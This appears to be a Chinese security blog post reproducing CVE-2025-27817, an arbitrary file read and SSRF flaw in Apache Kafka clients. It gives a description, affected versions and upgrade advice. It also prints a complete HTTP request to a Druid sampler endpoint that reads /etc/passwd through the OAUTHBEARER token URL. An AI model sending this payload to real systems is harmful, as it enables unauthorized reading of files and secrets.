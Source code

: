 #  【漏洞复现】Kafka Connect任意文件读取漏洞 CVE-2025-27817  
YGnight  night安全   2025-06-13 09:22  
  
公众号新规  
只对常读  
和  
星标的公众号才能展示大图推送，  
建议大家把公众号“  
n  
i  
g  
h  
t  
安  
全  
”设为  
星  
标  
，  
否  
则  
可  
能  
就  
看  
不  
到  
啦  
！  
  
![](https://mmbiz.qpic.cn/mmbiz_png/SaibaRNhOjqhia1cXxs2MiaTdgf2bBwXka6sHg0pvRw6MpQSvVF3CeJ83RS0Ys1YBXC1vM6icvsxKialdwur2lAFAsQ/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/SaibaRNhOjqhia1cXxs2MiaTdgf2bBwXka6kXG7JA6Rbic2FFaqy9dPWrQlwfRNCPfyicibm6Evv39Z6VttiagBARRQgw/640?wx_fmt=jpeg&from=appmsg "")  
  
  
免责声明  
  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/SaibaRNhOjqg4CicjYhkyn7j8xeutLIIGlA3Pam1Oxz5ujOUsmPibr5J9NCiagtp8nGEEXPeJiaUeWkN3v1XXSS9Vfw/640?wx_fmt=gif "")  
  
  
  
night安全致力于分享技术学习和工具掌握。然而请注意不得将此用于任何未经授权的非法行为，请您严格遵守国家信息安全法律法规。任何违反法律、法规的行为，均与本人无关。如有侵权烦请告知，我们会立即删除并致歉。谢谢！  
  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/oMlX8Lll9JhtrlOVpAFwbbnTXyrqweQO0kKLSPTRtSL4MEXjM3TdHU1GMhb3ysoFV3ic9hKDLibzic6T7ADMnfNnA/640?wx_fmt=gif "")  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgmBny4eMeJJOramdTQiciaDu5LeMykBibiaorwCvYEX2sxq5lVYw4iaddx0qYlbQ6fAyXd22dcFOiads8w/640?wx_fmt=gif "")  
  
漏洞描述  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgmBny4eMeJJOramdTQiciaDuYRDXO8rZ2DX4p68v8aWfzp0XSlDyFJvENtj4DwOjoB5CaZVMPnfFYQ/640?wx_fmt=gif "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/SaibaRNhOjqgKudaKX42OfQGmjyT6AU6BvDJ2DlriahviahK1C8qV3uEZibp7jJtCRsialo4eNky2ZHT2n2NOVrbnrA/640?wx_fmt=png&from=appmsg "")  
  
       已在Apache Kafka Client中发现可能的任意文件读取和SSRF漏洞。Apache Kafka客户端接受用于设置与代理的SASL/OAUTHBEARER连接的配置数据，包括“sasl.oauthbearer.token.endpoint.url”和“sasl.oauthbearer.jwks.endpoint.url”。Apache  Kafka 允许客户端读取任意文件并返回错误日志中的内容，或将请求发送到意外位置。在 Apache Kafka  客户端配置可由不受信任的一方指定的应用程序中，攻击者可能会使用“sasl.oauthbearer.token.endpoint.url”和“sasl.oauthbearer.jwks.endpoint.url”配置来读取磁盘和环境变量的任意内容或向意外位置发出请求。具体而言，Apache  Kafka Connect 中可能会利用此缺陷从 REST API 访问升级到文件系统/环境/URL 访问，这在某些环境（包括 SaaS  产品）中可能是不可取的。从 Apache Kafka 3.9.1/4.0.0开始，我们添加了一个系统属性（“-Dorg.apache.kafka.sasl.oauthbearer.allowed.urls”）来设置  SASL JAAS 配置中允许的 url。在 3.9.1 中，它默认接受所有 url 以实现向后兼容性。但是，在 4.0.0  及更高版本中，默认值为空列表，用户必须显式设置允许的 url。  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgmBny4eMeJJOramdTQiciaDu5LeMykBibiaorwCvYEX2sxq5lVYw4iaddx0qYlbQ6fAyXd22dcFOiads8w/640?wx_fmt=gif "")  
  
影响版本  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgmBny4eMeJJOramdTQiciaDuYRDXO8rZ2DX4p68v8aWfzp0XSlDyFJvENtj4DwOjoB5CaZVMPnfFYQ/640?wx_fmt=gif "")  
  
```
3.1.0 ≤ Apache Kafka < 3.9.1
```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgmBny4eMeJJOramdTQiciaDu5LeMykBibiaorwCvYEX2sxq5lVYw4iaddx0qYlbQ6fAyXd22dcFOiads8w/640?wx_fmt=gif "")  
  
漏洞复现  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgmBny4eMeJJOramdTQiciaDuYRDXO8rZ2DX4p68v8aWfzp0XSlDyFJvENtj4DwOjoB5CaZVMPnfFYQ/640?wx_fmt=gif "")  
  
  
      
```
POST /druid/indexer/v1/sampler?for=connect HTTP/1.1
Host: xxx.xxx.xxx.xxx
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.178 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/json
Content-Length: 1617
{
  "type": "kafka",
  "spec": {
    "type": "kafka",
    "ioConfig": {
      "type": "kafka",
      "consumerProperties": {
        "bootstrap.servers": "127.0.0.1:6666",
        "sasl.mechanism": "OAUTHBEARER",
        "security.protocol": "SASL_SSL",
        "sasl.login.callback.handler.class": "org.apache.kafka.common.security.oauthbearer.secured.OAuthBearerLoginCallbackHandler",
        "sasl.oauthbearer.token.endpoint.url": "file:///etc/passwd",
        "sasl.jaas.config": "org.apache.kafka.common.security.oauthbearer.OAuthBearerLoginModule required sasl.oauthbearer.token.endpoint.url=\"http://127.0.0.1:9999/token\" sasl.oauthbearer.jwks.endpoint.url=\"http://127.0.0.1:9999/jwks\" sasl.oauthbearer.client.id=your-client-id sasl.oauthbearer.client.secret=your-client-secret sasl.oauthbearer.expected.audience=kafka sasl.oauthbearer.expected.issuer=\"http://127.0.0.1:9999\" useFirstPass=true serviceName=kafka debug=true;"
      },
      "topic": "test",
      "useEarliestOffset": true,
      "inputFormat": {
        "type": "regex",
        "pattern": "([\\s\\S]*)",
        "listDelimiter": "",
        "columns": ["raw"]
      }
    },
    "dataSchema": {
      "dataSource": "sample",
      "timestampSpec": {
        "column": "!!!_no_such_column_!!!",
        "missingValue": "1970-01-01T00:00:00Z"
      },
      "dimensionsSpec": {},
      "granularitySpec": {
        "rollup": false
      }
    },
    "tuningConfig": {
      "type": "kafka"
    }
  },
  "samplerConfig": {
    "numRows": 500,
    "timeoutMs": 15000
  }
}
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/SaibaRNhOjqgKudaKX42OfQGmjyT6AU6BusxMyl9Oh9r4nfzvticJB8KvogygFubnictqpEic7HXKFGCQ6VarFhV9Q/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgmBny4eMeJJOramdTQiciaDu5LeMykBibiaorwCvYEX2sxq5lVYw4iaddx0qYlbQ6fAyXd22dcFOiads8w/640?wx_fmt=gif "")  
  
修复建议  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgmBny4eMeJJOramdTQiciaDuYRDXO8rZ2DX4p68v8aWfzp0XSlDyFJvENtj4DwOjoB5CaZVMPnfFYQ/640?wx_fmt=gif "")  
  
```
官方已推送更新版本，受影响用户可以升级至3.9.1及以上版本。
```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/oMlX8Lll9JhtrlOVpAFwbbnTXyrqweQO0kKLSPTRtSL4MEXjM3TdHU1GMhb3ysoFV3ic9hKDLibzic6T7ADMnfNnA/640?wx_fmt=gif "")  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/SaibaRNhOjqhXmCUxdZR0bITTD3G86qXKpciaqHNr4Y60SPF1XeS358wiceQDUm8K5zh7RZsnknYxKJ37kkkcpWZg/640?wx_fmt=gif "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/SaibaRNhOjqhia1cXxs2MiaTdgf2bBwXka6DCLEF53OGJWH7A9YU8LA95g10yEzvZgFYhwhV3OQX3qdtk7vIsWncw/640?wx_fmt=png&from=appmsg "")  
  
****  
扫  
码  
关  
注  
  
获  
得  
更  
多  
资  
讯  
  
****  
  
